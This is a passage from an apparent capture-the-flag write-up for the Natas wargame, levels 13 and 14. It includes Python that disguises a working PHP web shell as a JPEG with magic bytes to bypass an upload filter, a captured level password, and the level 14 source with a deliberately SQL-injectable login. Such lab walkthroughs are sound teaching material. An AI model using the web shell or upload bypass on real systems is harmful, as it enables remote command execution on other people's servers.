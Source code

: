 I used hexdump for VSCode [https://marketplace.visualstudio.com/items?itemName=slevesque.vscode-hexdump](https://marketplace.visualstudio.com/items?itemName=slevesque.vscode-hexdump)

```text
Offset:   00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F
00000000: FF D8 FF DB 3C 21 2D 2D 20 42 79 20 6A 75 73 74    .X.[<!--.By.just
00000010: 69 6E 2D 70 20 28 68 74 74 70 73 3A 2F 2F 72 61    in-p.(https://ra
```

Python could also be used to add the magic bytes.

```python
fh = open('p_shell.php', 'w')
fh.write('\xFF\xD8\xFF\xE0' + '<?php if (empty($_POST[\'cmd\'])) {$cmd = "";} elseif (!empty($_POST[\'cmd\'])) {$cmd = shell_exec($_POST[\'cmd\']);} ?><form method="POST"><input type="text" style="width:100%;height:25px;" name="cmd" id="cmd" value="<?php if (!empty($_POST[\'cmd\'])) {htmlspecialchars($_POST[\'cmd\'], ENT_QUOTES, \'UTF-8\');} ?>" required><button type="submit" class="btn btn-primary">Execute</button></form><?php if (!$cmd && $_SERVER[\'REQUEST_METHOD\'] != \'POST\'): ?><small>Enter command.</small> <?php elseif ($cmd): ?><pre><?= htmlspecialchars($cmd, ENT_QUOTES, \'UTF-8\') ?></pre> <?php elseif (!$cmd && $_SERVER[\'REQUEST_METHOD\'] == \'POST\'): ?><small>No results.</small> <?php endif; ?>')
fh.close()
```

Upload the file and cat the password file  
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

### Natas 14

```markup
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas14", "pass": "<censored>" };</script></head>
<body>
<h1>natas14</h1>
<div id="content">
<?
if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas14', '<censored>');
    mysql_select_db('natas14', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysql_num_rows(mysql_query($query, $link)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
```